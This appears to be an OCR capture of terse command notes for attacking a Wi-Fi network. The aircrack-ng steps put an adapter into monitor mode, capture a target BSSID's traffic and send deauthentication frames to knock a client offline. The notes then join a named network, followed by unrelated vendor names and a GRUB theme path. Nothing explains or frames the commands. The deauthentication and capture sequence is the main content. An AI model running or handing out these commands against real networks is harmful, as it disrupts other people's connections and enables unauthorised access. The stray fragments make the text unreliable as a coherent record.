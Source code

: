 sudo airmon-ng
sudo airmon-ng start wlan0
sudo airmon-ng

sudo airodump-ng wlan0mon

sudo airodump-ng --bssid <BSSID> --channel <CHANNEL> --write capture wlan0mon
sudo aireplay-ng --deauth 10 -a <BSSID> -c <CLIENT_MAC> wlan0mon

sudo iwconfig wlan0 essid "MV16044827"
sudo dhclient wlan0

ML141 
leaontek-ml
liteontechno 
xiaomiCommun
neterbit


/usr/share/grub/themes/tartarus/